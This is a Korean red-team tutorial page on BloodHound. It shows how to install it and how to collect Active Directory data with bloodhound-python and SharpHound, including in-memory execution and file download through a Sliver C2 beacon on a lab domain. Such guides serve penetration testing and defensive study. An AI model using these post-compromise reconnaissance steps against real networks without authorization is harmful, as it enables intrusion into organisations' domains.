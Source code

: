 # 블러드하운드

![이미지 출처: https://bloodhound.readthedocs.io/en/latest/data-analysis/bloodhound-gui.html](<../.gitbook/assets/image (5) (1) (1) (1).png>)

[블러드하운드(BloodHound)](https://github.com/BloodHoundAD/BloodHound)는 액티브 디렉토리의 LDAP 데이터를 수집하고 이를 그래프 자료구조 형식으로 보여주는 툴이다. 수만명의 도메인 유저 계정, 수십만대의 호스트들의 관계와 정보를 일일히 수동으로 정리하는 것은 불가능에 가깝다. 블러드하운드는 이를 도와주기 위해서 만들어진 툴이다.&#x20;

블러드하운드는 총 3가지 툴로 운영된다.&#x20;

1. 블러드하운드 Data Ingestor - 도메인 컨트롤러에 접근에 LDAP 데이터를 추출한 뒤, 도메인 유저, 호스트, 그룹, 세션 등의 데이터를 json 형태로 저장하는 툴.&#x20;
2. Neo4J - 블러드 하운드의 백엔드 데이터베이스. Ingestor가 추출한 json 파일을 neo4j 데이터베이스에 불러온 뒤 블러드하운드 GUI에서 사용할 수 있게된다.&#x20;
3. 블러드하운드 GUI  - 백엔드 데이터베이스의 데이터를 그래프 자료구조의 형식으로 보여주는 프론트엔드 GUI 툴.&#x20;

### 설치&#x20;

블러드하운드 설치는 [공식 문서](https://github.com/BloodHoundAD/BloodHound)를 참고한다.&#x20;

```
# 칼리 리눅스 
apt update -y 
apt install bloodhound -y 
neo4j console 

# http://localhost:7474 방문 후 neo4j:neo4j 를 이용해 로그인. 
# 이후, 비밀번호를 바꿔줌.

# 블러드하운드 실행 후 neo4j:<바뀐-비밀번호>로 로그인 
bloodhound 
```

![블러드하운드 GUI 로그인 화면](<../.gitbook/assets/image (8) (1) (1).png>)

### 사용 - 데이터 Ingestor

블러드하운드를 이용하기 위해선 타겟 도메인의 액티브 디렉토리 데이터를 Ingestor를 이용해 추출해야한다. 액티브 디렉토리 데이터를 추출하기 위해서는 도메인 유저의 계정정보나 세션이 필요하다. 초기 침투가 성공적이였다면 대부분 도메인 유저 (ex. 회계 부서의 김인턴) 의 문맥을 갖게된다.&#x20;

데이터 Ingestor는 다양한 액티브 디렉토리의 정보들을 빼내올 수 있다. 공식문서의 `-c, Collection method`를 참고한다.&#x20;

리눅스에서는 [`bloodhound-python`](https://github.com/fox-it/BloodHound.py) 툴을, 윈도우에서는 [`SharpHound`](https://github.com/BloodHoundAD/SharpHound) 툴을 이용한다.&#x20;

{% tabs %}
{% tab title="리눅스" %}
리눅스에서는 bloodhound-python을 이용한다.&#x20;

```
# 설치 
pip3 install bloodhound 

# 실행 
bloodhound-python -c DCOnly -u <user> -p <pass> -d <domain> -dc <dc-fqdn>
bloodhound-python -c DCOnly -u low -p 'Password123!' -d choi.local -dc dc01.choi.local
```
{% endtab %}

{% tab title="윈도우 - 콘솔" %}
콘솔을 갖고 있는 경우 SharpHound를 이용한다. SharpHound는 .NET 어셈블리이기 때문에 직접 실행하거나 파워쉘에서 불러온 후 메모리상에서 실행할 수 있다.&#x20;

```
# Sharphound.exe 실행 
./SharpHound.exe -c <method> -d <domain>
./SharpHound.exe -c All -d choi.local
```
{% endtab %}

{% tab title="윈도우 - 비컨" %}
SharpHound는 .NET 어셈블리이기 때문에 비컨의 메모리상에서 execute-assembly 형식으로 사용할 수 있다.&#x20;

```
# SharpHound Release를 다운받거나, 깃-클론 뒤 컴파일한다. 
wget https://github.com/BloodHoundAD/SharpHound/releases/download/v1.0.3/SharpHound-v1.0.3.zip . 
unzip SharpHound-v1.0.3.zip

# 슬리버의 execute-assembly를 이용해 메모리상에서 SharpHound를 실행한다. 
sliver> use <beacon-name>
sliver> execute-assembly /root/redteam/tools/SharpHound.exe "-c All -d choi.local"

# 다운로드 할 때는 백슬래쉬 이스케이프를 해주거나 큰 따옴표를 이용한다. 
sliver> download <원격-파일경로> <로컬-파일경로>
sliver> download "C:\Users\Administrator\Downloads\20220613235339_BloodHound.zip" /root/redteam/bh.zip
```
{% endtab %}
{% endtabs %}

### 사용 - 블러드하운드 GUI

다운 받은 zip파일을 블러드하운드 GUI에다가 드래그 & 드롭 하면 된다.&#x20;

![](<../.gitbook/assets/image (3) (1) (1) (1).png>)

이후 Analysis에서 미리 준비된 쿼리를 이용하거나 하단의 `Raw Query` 를 통해 직접 Cypher Query를 사용한다.&#x20;

### 레퍼런스&#x20;

{% embed url="https://bloodhound.readthedocs.io/en/latest/" %}

{% embed url="https://github.com/BloodHoundAD/BloodHound" %}

{% embed url="https://github.com/BloodHoundAD/SharpHound" %}

{% embed url="https://github.com/fox-it/BloodHound.py" %}
